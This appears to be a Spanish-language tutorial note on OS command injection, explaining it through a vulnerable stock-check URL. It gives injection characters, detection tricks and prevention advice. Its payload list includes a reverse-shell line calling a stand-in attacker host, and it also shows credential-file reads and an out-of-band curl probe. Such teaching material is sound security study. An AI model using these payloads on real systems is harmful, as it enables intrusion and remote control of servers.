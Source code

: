 ## 🚧 OS Command Injection

---

# 🔐 ¿Qué es OS Command Injection?

**OS Command Injection** (tambien conocido como **Shell Injection**) es una vulnerabilidad que ocurre cuando una aplicación web permite que un atacante inyecte y ejecute **comandos arbitrarios del sistema operativo** en el servidor.

Cuando esto ocurre, el atacante puede:

- Ejecutar comandos con los mismos privilegios que el proceso vulnerable (por ejemplo, el usuario del servidor web).
- Acceder a archivos sensibles, credenciales, servicios de red internos.
- En muchos casos, escalar privilegios o pivotear hacia otros sistemas internos.

> 🚀 Es una de las vulnerabilidades **más críticas** que puede sufrir una aplicación web.

---

# 🔹 Ejemplo de funcionamiento vulnerable

### Contexto:

Una tienda online permite consultar el stock de un producto en una sucursal específica mediante la siguiente URL:

```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

En el backend, el sistema ejecuta el siguiente comando en una terminal para consultar el stock en sistemas legados:

```bash
stockreport.pl 381 29
```

El problema aparece cuando los valores de `productID` y `storeID` son inyectados directamente en el comando del sistema **sin ninguna validación o sanitización**.

---

# 🚨 Explotación básica

El atacante puede enviar lo siguiente como valor de `productID`:

```
& echo aiwefwlguh &
```

El comando resultante que se ejecuta es:

```bash
stockreport.pl & echo aiwefwlguh & 29
```

Lo que ejecuta:
1. `stockreport.pl` (sin argumentos, produce un error).
2. `echo aiwefwlguh` (el string aparece en la salida).
3. `29` (interpreta `29` como un comando, produce un error).

### Resultado en pantalla:
```
Error - productID was not provided
aioefwguh
29: command not found
```

### 🔗 Caracteres de inyección comunes en Linux:

| Carácter | Funcón |
|----------|--------|
| `&` | Ejecuta comandos en secuencia. |
| `;` | Separa comandos independientes. |
| `\|` | Pipe: conecta la salida de un comando con otro. |
| `\|\|`, `&&` | Condicionales: ejecuta solo si el anterior falla/exitoso. |
| `\`` o `$()` | Ejecuta comandos en subshell. |

### 🔗 Ejemplo de payloads:

```bash
productID=381; whoami
productID=381 && ls /
productID=381 | nc attacker.com 4444 -e /bin/bash
productID=381$(id)
```

---

# 🔢 Variantes por sistema operativo

### 🌎 Linux:

| Comando | Descripción |
|---------|-------------|
| `id` | Muestra el usuario actual. |
| `uname -a` | Info del kernel y sistema. |
| `cat /etc/passwd` | Usuarios del sistema. |
| `netstat -tuln` | Puertos abiertos. |

### 🌊 Windows:

| Comando | Descripción |
|---------|-------------|
| `whoami` | Usuario actual. |
| `dir` | Lista archivos del directorio. |
| `ipconfig` | Info de red. |
| `type C:\\Windows\\win.ini` | Leer archivo clásico para prueba. |

> ⚠️ En Windows, los comandos se pueden inyectar con `&`, `&&`, `|`, `^`.

---

# 🔒 Técnicas para detectar OS Command Injection

1. **Inyección de comandos de eco:**
   ```bash
   & echo testcmd &
   ```
   Si "testcmd" aparece en la respuesta, hay ejecución.

2. **Retraso por tiempo (blind):**
   ```bash
   ; sleep 10
   ```
   Si la respuesta demora, el comando fue ejecutado aunque no haya salida visible.

3. **Out-of-Band (OAST):**
   ```bash
   ; curl http://your-burpcollaborator.net
   ```
   Se usa para detectar ejecución si no hay respuesta directa (blind RCE).

[Lab: File path traversal, simple case](1_File_path_traversal_simple_case.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green)  

---

# 🚫 Cómo prevenir OS Command Injection

### ✅ 1. Evitar construir comandos con datos del usuario
- Usar APIs del lenguaje que **no invocan shell** (por ejemplo, `subprocess.run()` en Python con `shell=False`).

### ✅ 2. Validar estrictamente la entrada
- Usar **listas blancas** (whitelisting) para los argumentos esperados.
- Rechazar cualquier caracter especial como `;`, `&`, `|`, `>`.

### ✅ 3. Uso de privilegios mínimos
- El proceso que ejecuta el comando debe correr como un usuario **con permisos limitados**.

### ✅ 4. Escape adecuado de argumentos
- Si realmente se deben usar en comandos, escapar correctamente según el sistema operativo.

---

# 🎓 Conclusión

**OS Command Injection** es una de las vulnerabilidades más críticas debido a su capacidad de proporcionar al atacante **acceso directo al sistema operativo** del servidor. Con pocos caracteres, un atacante puede escalar desde un acceso limitado hasta tomar control completo del entorno.

La prevención se basa en:
- **No confiar nunca en la entrada del usuario**.
- Evitar ejecutar comandos innecesariamente.
- Implementar validaciones estrictas y usar métodos seguros para ejecutar procesos si es inevitable.

> ⚠️ Como pentester, la detección de OS command injection puede ser sutil, pero los resultados son devastadores cuando se explota correctamente.

